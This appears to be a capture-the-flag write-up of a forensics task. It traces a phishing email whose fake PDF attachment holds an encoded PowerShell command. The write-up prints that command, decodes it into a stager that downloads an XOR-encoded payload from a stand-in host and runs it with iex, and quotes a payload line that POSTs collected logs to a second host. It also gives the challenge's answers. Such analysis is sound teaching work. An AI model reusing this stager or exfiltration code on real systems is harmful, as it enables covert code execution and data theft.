


<div align="center">

# Task 3

[](https://shields.io/)
[](https://shields.io/)
</div>

> With the provided information, OOPS was quickly able to identify the employee associated with the account. During the incident response interview, the user mentioned that they would have been checking email around the time that the communication occurred. They don't remember anything particularly weird from earlier, but it was a few weeks back, so they're not sure. OOPS has provided a subset of the user's inbox from the day of the communication.
> 
> Identify the message ID of the malicious email and the targeted server.
> 
> Downloads:
> * [User's emails (emails.zip)](provided/emails.zip)
> 
> ---
> 
> Enter the message ID of the malicious email (format: <111111111111.22222.33333333333333333333@aaa.bbb>)
> ```
> ```
> 
> Enter the domain name of the server that the malicious payload sends a POST request to
> ```
> ```

## Files

* [provided/](provided/)
  - [emails.zip](provided/emails.zip) - Provided emails 
    - message_0.eml
    - ...
    - message_23.eml
* [FOOT_Installation.pdf](FOOT_Installation.pdf) - Malicious attachment
* [decoded_powershell.ps1](decoded_powershell.ps1) - Base64 decoded PowerShell command
* [movement](movement) - Encrypted payload from PCAP
* [decrypted_movement.ps1](decrypted_movement.ps1) - Decrypted PowerShell payload
* [solution.txt](solution.txt) - Solution

## Solution

### Finding the Malicious Email

Let's start by viewing the emails in a mail client and looking for anything suspicious. I'm using Apple's Mail app, but something like [Thunderbird](https://www.thunderbird.net/en-US/) should work too.

***Note**: The NSA is unlikely to release challenges with live malware, but it's good to get in the habit of working with potentially malicious documents in a virtual machine and a disabled network.*

There are quite a few emails with attachments. Most open fine, but `message_8.eml` has a PDF attachment that fails to open:

<div align="center">


</div>

It's only 717 bytes, let's see what's inside: 

```bash
$ cat FOOT_Installation.pdf
```
```
powershell -nop -noni -w Hidden -enc JABiAHkAdABlAHMAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AcQBlAHIAcgBiAC4AaQBuAHYAYQBsAGkAZAAvAG0AbwB2AGUAbQBlAG4AdAAnACkACgAKACQAcAByAGUAdgAgAD0AIABbAGIAeQB0AGUAXQAgADEAMAA0AAoACgAkAGQAZQBjACAAPQAgACQAKABmAG8AcgAgACgAJABpACAAPQAgADAAOwAgACQAaQAgAC0AbAB0ACAAJABiAHkAdABlAHMALgBsAGUAbgBnAHQAaAA7ACAAJABpACsAKwApACAAewAKACAAIAAgACAAJABwAHIAZQB2ACAAPQAgACQAYgB5AHQAZQBzAFsAJABpAF0AIAAtAGIAeABvAHIAIAAkAHAAcgBlAHYACgAgACAAIAAgACQAcAByAGUAdgAKAH0AKQAKAAoAaQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGQAZQBjACkAKQAKAA==
```

Okay, this definitely isn't a PDF. This must be the malicious email so we should save the message ID:
```bash
$ cat message_8.eml | grep Message-ID
``` 
```
Message-ID: <161585228800.22130.1836621140697675009@oops.net>
```

### Stager Analysis

The `powershell` command has a bunch of flags. [Pulling Back the Curtains on EncodedCommand PowerShell Attacks](https://unit42.paloaltonetworks.com/unit42-pulling-back-the-curtains-on-encodedcommand-powershell-attacks/) from Palo Alto Networks does a good job of explaining why these flags are here. 

The part we care about is the `-enc` flag and the string that follows. You might think that `-enc` stands for encryption, but it actually stands for encoded, indicating that the rest of the command is base64-encoded. We can easily decode the string:

```bash
$ grep -o "J.*" FOOT_Installation.pdf | base64 -D 
```
```powershell
$bytes = (New-Object Net.WebClient).DownloadData('http://qerrb.invalid/movement')

$prev = [byte] 104

$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    $prev = $bytes[$i] -bxor $prev
    $prev
})

iex([System.Text.Encoding]::UTF8.GetString($dec))
```

Nice! You might think we're done for this task because the first line has a domain name, but `DownloadData()` makes a `GET` request, not a `POST`. We have to figure out what this script is doing to find the second domain. Non-PowerShell pseudocode for this script looks something like this:

```
bytes = http.GET(http://qerrb.invalid/movement)

prev = 104

dec = []
for i = 0; i < len(bytes); i++:
    prev = bytes[i] ^ prev
    dec.append(prev)

execute(dec.decode('utf-8'))
```

This demonstrates that the email attachment is just a stager for a different payload hosted at http://qerrb.invalid/movement. If this URL seems familiar to you, it's because Wireshark showed us that the compromised OOPS machine requested this payload in the packet capture! We can recover the data from the PCAP and then decrypt it using what we now know.  

There are a few different ways to export data from a PCAP. If your protocol is HTTP, one really easy way to do it is to navigate to *File > Export Objects > HTTP*:

<div align="center">


</div>

Our stager requests `/movement`, so that's the object that needs to be saved.

### Payload Analysis

Decrypting should be simple. We can either implement the stager in a language we're more familiar with or simply use the stager that we already have and have it fetch the encrypted payload from a URL we control. I opted for the latter option:

On my Windows machine in WSL, with the encrypted payload named `movement`:

```bash
$ python -m SimpleHTTPServer 80
```
```
Serving HTTP on 0.0.0.0 port 80
```

Then this modified stager is pasted into PowerShell to fetch and print out the decrypted payload:

```powershell
$bytes = (New-Object Net.WebClient).DownloadData('http://localhost/movement')

$prev = [byte] 104

$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    $prev = $bytes[$i] -bxor $prev
    $prev
})

[System.Text.Encoding]::UTF8.GetString($dec) | Set-File -Path C:\Users\Luke\Desktop\decrypted_payload.ps1
```

It works! Opening up the newly created file with a text editor shows us a plaintext PowerShell script with quite a lot of functionality. Notably, the last line makes a `POST` request to a new domain, the domain we need to complete this task:

```powershell
Invoke-WebRequest -uri http://nscqp.invalid:8080 -Method Post -Body $global:log
```

<div align="center">


</div>

## Resources

* [Thunderbird](https://www.thunderbird.net/en-US/)
* [Pulling Back the Curtains on EncodedCommand Powershell Attacks](https://unit42.paloaltonetworks.com/unit42-pulling-back-the-curtains-on-encodedcommand-powershell-attacks/)
